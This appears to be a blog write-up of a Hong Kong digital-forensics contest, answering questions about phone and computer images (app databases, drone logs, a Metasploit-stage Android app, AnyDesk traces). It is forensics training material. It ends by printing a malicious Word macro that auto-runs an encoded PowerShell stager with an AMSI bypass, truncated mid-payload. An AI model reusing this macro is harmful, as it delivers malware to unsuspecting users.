> 这次检材给的很不合理，许多重复检材，流量包我就没用到，而且我还有题没有解出来，估计就得用流量包。
>
> 附加资料完全不用给，他浏览器里都有对应地址的访问记录，直接通过那些地址一步步推过去就可以做出了，给那么多截图，就没有虚拟币取证的意义了，和龙信有的一拼。
>
> 检材弄那么大，题目还没啥意思。。。
>
> 没做出来的随缘更新了，也可能永远不更

## 1.参考’blk0_sda.bin’,死者手机中的一个智能家居应用程序中的帐号是什么？提示:请以阿拉伯数字填写答案(1分)

/data/data下找到米家

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902777-1308086020.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902843-169161342.png)

结果为`1826082897`

## 2.参考’blk0_sda.bin’,死者手机中的智能家居应用程序内的智能门铃发送的最后一次通知消息的本地时间？(1分)

`/data/data/com.xiaomi.smartphone/databases/typelist_v2.db`下的`messagerecordtypelist`表

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903002-224177342.png)

结果为`2023-09-26 23:51:18`

## 3.参考’blk0_sda.bin’,死者在「Carousell」应用程序中首先接触的卖家是售卖什么类型产品的？(2分)

数据库不加密，`/data/data/com.thecarousell.Carousell/databases/carousell_room.db`下的`chat_inbox`表

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902869-1086414710.png)

结果为`运动鞋`

## 4.参考’blk0_sda.bin’,死者在「FacebookMessenger」应用程序中最后联系人的使用者的名字？提示:请用简体中文填写答案。(2分)

包名是`com.facebook.orca`，`msys_database_100095371293642`数据库，`messages`表和`.cached_participant_thread_info`表

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902826-992563687.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902829-453940252.png)

结果为`杨漫漫`

## 5.参考’blk0_sda.bin’,死者曾经用「Fitbit」应用程序记录一次跑步的数据，该次跑步是由何时开始？(1分)

先从`/data/data/com.fitbit.FitbitMobile/databases/activity_db`的`MOST_RECENT_ACTIVITY`表中找到跑步记录，此时有一个ID值为`90009`，同时这个库中多次出现这个值，说明这是跑步的ID

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902824-556279572.png)

再在`exercise_db`中的`EXERCISE_SESSION`表中根据这个值判断为跑步记录，转换时间戳

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902861-920415037.png)

结果为`2023-09-13 12:37`

## 6.参考’blk0_sda.bin’,死者除曾经用「Fitbit」应用程序记录一次跑步的数据外，他也用哪一个应用程序记录同一次跑步？(1分)

`/data/data`目录下一眼

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902839-951616060.png)

看一眼数据库，时间（UTC+0）和距离都能对上，软件名是`Runkeeper`，不确定的可以去分析它的apk

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902759-1701844698.png)

结果为`Runkeeper`

## 7.参考’blk0_sda.bin’,死者跑步起点的经纬度是多少？(1分)

还是`Runkeeper`的数据库的`point`表，选项里找不到`fitbit`记录里的经纬度

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902830-347764202.png)

结果为`114.16867,22.280434`

## 8.参考’blk0_sda.bin’,无人机卖家的电话号码是多少？提示:答案包括没有任何空格的国际电话代码，例如0085261231234(2分)

`Carousell`里没找到电话号码，可能不是在这里买的，根据第35题的描述，可以看一眼`Whatsapp`，查看它的`msgstore.db`和`wa.db`数据库，在`wa`中可以看到有几个账号的聊天记录非常多

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902706-1210851863.png)

然后在`msgstore`中依次查看，然后根据表中的外键关系定位用户的聊天记录，最终发现是`85257352259`这个账号卖的无人机

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902780-2016935566.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902758-1811105930.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902748-519653988.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902724-534553466.png)

结果为`85257352259`（不知道答案前面为什么+00）

## 9.参考李佩妍的手机镜像,李佩妍在Facebook建立了一个群组,该群组的名称是什么?提示:请用大写英文作答,不用留空白(1分)

`iBackup Viewer`导出数据库

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902892-233942003.png)

`advanced_thred_info`表

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902845-2053123762.png)

结果为`DJIDRONESHONGKONG`

## 10.参考李佩妍的手机镜像,李佩妍第一次用计算机登入Facebook帐户的日期和时间?(2分)

`secure_message_peer_devices_v2`表，设备记录

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902833-1114439054.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902851-840626588.png)

结果为`2023-07-26 14:37:40`

## *11.参考李佩妍的手机镜像,李佩妍在2023年9月3日曾经操作航拍机,请问起飞地点的经纬度是多少?提示:以经纬度坐标回答有关答案，答案如Lat:22.2846135,Lon:114.1739116，请用以下格式作答，22.2846135,114.1739116。(2分)

网站解析txt飞行记录https://app.airdata.com/

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902903-331210486.png)

但是解析的还有出入（获取是大疆故意设计的）。。或许在大疆官网可以得到最准确的经纬度吧

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902773-800148023.png)

结果为`22.356558,114.093962`（官方答案`22.3565559,114.0939615`）

## 12.参考李哲图的手机镜像,李哲图手机内安装了什么恶意软件?(1分)

`com.metasploit.stage`这个GDA有扫出问题，加载代码执行，并且还有网络连接，至于`com.cad_epuas_reactnative`是下面直接问的

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902844-1613376161.png)

结果为`com.metasploit.stage`和`com.cad_epuas_reactnative`

## 13.参考李哲图的手机镜像,李哲图手机内package“com.cad_epuas_reactnative”的app名是什么?提示:请以中文和全英文大写填写答案(1分)

一个坑点，我们检测应用名，一般就是从清单文件读取，有两种情况，一种就是`application`标签里`android:label`的值直接是应用名，另一种就是图中的方式

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902912-1812873453.png)

在用这个方式获取应用名时，我们检测软件一般是直接获取`resources.arsc`里`values`目录下`strings.xml`文件或者是`values-zh-rCN`中的值，也就是`eSUA`

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902890-1758557896.png)

但这里出题方是香港，检材也是那边做的，所以得用`values-zh-rHK`

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902859-1041504289.png)

结果为`SUA一站通`

## 14.参考李哲图的手机镜像,“com.cad_epuas_reactnative”拆包后,内有哪一个“类(class)”能找到黑客IP有关的线索?(2分)

和`com.metasploit.stage`类似的构造

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903001-973044926.png)

结果为`com.cad_epuas_reactnative.cashk.Ywnvt`

## 15.参考李佩妍的计算机镜像,李哲图计算机的外部IP是多少?提示:用IPV4格式回答(1分)

装有AnyDesk，就看它的文件`\Users\Peggy Li\AppData\Roaming\AnyDesk\ad.trace`

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902842-1560603991.png)

结果为`59.152.211.13`

## 16.参考李佩妍的计算机镜像,李佩妍计算机内的Kali虚拟机时区是多少?提示:不要输入符号及空白，以全大写英文回答(1分)

虚拟机文件在`\Program Files\Oracle\Peggy Li\kali-linux-2023.3-virtualbox-amd64.vdi`

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902970-1498110468.png)结果为`USEASTERN`

## 17.参考李哲图的计算机镜像,在李哲图的计算机上，有一个文件内藏有木马病毒，请问该文件的名称是什么？提示:以全大写英文字母回答，不包含符号或空格，例如，“ABC.TXT”(1分)

用户music目录下看到两个文件

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902754-847198995.png)

doc看一眼，应该是有宏病毒，微步跑一下

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902845-148575930.png)

这是宏代码


```bash
Sub AutoClose()
        P
End Sub

Public Function P() As Variant
        Dim i As String
        i = "powershell -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVg"
        i = i + "BlAHIAcwBpAG8AbgBUAGEAYgBsAGUALgBQAFMAVgBlAHIAcwBp"
        i = i + "AG8AbgAuAE0AYQBqAG8AcgAgAC0AZwBlACAAMwApAHsAJABSAG"
        i = i + "UAZgA9AFsAUgBlAGYAXQAuAEEAcwBzAGUAbQBiAGwAeQAuAEcA"
        i = i + "ZQB0AFQAeQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQ"
        i = i + "BnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBB"
        i = i + "AG0AcwBpAFUAdABpAGwAcwAnACkAOwAkAFIAZQBmAC4ARwBlAH"
        i = i + "QARgBpAGUAbABkACgAJwBhAG0AcwBpAEkAbgBpAHQARgBhAGkA"
        i = i + "bABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQ"
        i = i + "B0AGkAYwAnACkALgBTAGUAdAB2AGEAbAB1AGUAKAAkAE4AdQBs"
        i = i + "AGwALAAkAHQAcgB1AGUAKQA7AFsAUwB5AHMAdABlAG0ALgBEAG"
        i = i + "kAYQBnAG4AbwBzAHQAaQBjAHMALgBFAHYAZQBuAHQAaQBuAGcA"
        i = i + "LgBFAHYAZQBuAHQAUAByAG8AdgBpAGQAZQByAF0ALgBHAGUAdA"
        i = i + "BGAGkAZQBsAGQAKAAnAG0AXwBlAG4AYQBiAGwAZQBkACcALAAn"
        i = i + "AE4AbwBuAFAAdQBiAGwAaQBjACwASQBuAHMAdABhAG4AYwBlAC"
        i = i + "cAKQAuAFMAZQB0AFYAYQBsAHUAZQAoAFsAUgBlAGYAXQAuAEEA"
        i = i + "cwBzAGUAbQBiAGwAeQAuAEcAZQB0AFQAeQBwAGUAKAAnAFMAeQ"
        i = i + "BzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0"
        i = i + "AG8AbQBhAHQAaQBvAG4ALgBUAHIAYQBjAGkAbgBnAC4AUABTAE"
        i = i + "UAdAB3AEwAbwBnAFAAcgBvAHYAaQBkAGUAcgAnACkALgBHAGUA"
        i = i + "dABGAGkAZQBsAGQAKAAnAGUAdAB3AFAAcgBvAHYAaQBkAGUAcg"
        i = i + "AnACwAJwBOAG8AbgBQAHUAYgBsAGkAYwAsAFMAdABhAHQAaQBj"
        i = i + "ACcAKQAuAEcAZQB0AFYAYQBsAHUAZQAoACQAbgB1AGwAbAApAC"
        i = i + "wAMAApADsAfQA7AFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMA"
        i = i + "ZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQ"
        i = i + "A6ADoARQB4AHAAZQBjAHQAMQAwADAAQwBvAG4AdABpAG4AdQBl"
        i = i + "AD0AMAA7ACQAdwBjAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAF"
        i = i + "MAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4A"
        i = i + "dAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKA"
        i = i + "BXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBX"
        i = i + "ADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAH"
